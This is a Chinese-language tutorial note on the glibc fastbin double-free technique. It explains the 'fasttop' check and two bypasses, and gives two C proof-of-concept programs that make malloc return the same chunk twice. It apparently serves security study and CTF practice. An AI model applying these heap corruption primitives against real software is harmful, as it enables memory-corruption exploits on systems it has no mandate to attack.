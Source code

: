 ## 0. Double Free

对fastbin执行free的时候，会检查当前fastbin头部的chunk与待free的chunk是否是同一个，因此需要在两次次free中间插入其他相同大小的chunk的free

* 适用条件
  * 能够Double Free

* 安全检查
  * fastbin的头部chunk与待free的chunk不是同一个

```c
a = malloc(10);     // 0xa04010
b = malloc(10);     // 0xa04030
c = malloc(10);     // 0xa04050

free(a);
free(b);  // To bypass "double free or corruption (fasttop)" check
free(a);  // Double Free !!

d = malloc(10);     // 0xa04010
e = malloc(10);     // 0xa04030
f = malloc(10);     // 0xa04010   - Same as 'd' !
```

注意，上述代码的方法不适合smallbin，因为smallbin会检查下一个chunk的P位有没有被设置，而如果我们没有修改P位，则freebuild报错“double free or corruption (!prev)”

此外，可以通过在两次free中间申请largechunk（>=1024），使得第一次被free的fastbin进入unsorted bin再进入smallbin，这样第二次free的时候也可以绕过fastbin的头部检查。代码如下

```c
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>

int main() {
  void* p1 = malloc(0x40);
  void* p2 = malloc(0x40);
  fprintf(stderr, "Allocated two fastbins: p1=%p p2=%p\n", p1, p2);
  fprintf(stderr, "Now free p1!\n");
  free(p1);

  void* p3 = malloc(0x400);
  fprintf(stderr, "Allocated large bin to trigger malloc_consolidate(): p3=%p\n", p3);
  fprintf(stderr, "In malloc_consolidate(), p1 is moved to the unsorted bin.\n");
  fprintf(stderr, "In process unsorted bin, p1 is moved to the smallbin.\n");
  free(p1);
  fprintf(stderr, "Trigger the double free vulnerability!\n");
  fprintf(stderr, "We can pass the check in malloc() since p1 is not fast top.\n");
  fprintf(stderr, "Now p1 is in small bin and fast bin. So we'will get it twice: %p %p\n", malloc(0x40), malloc(0x40));
}
```
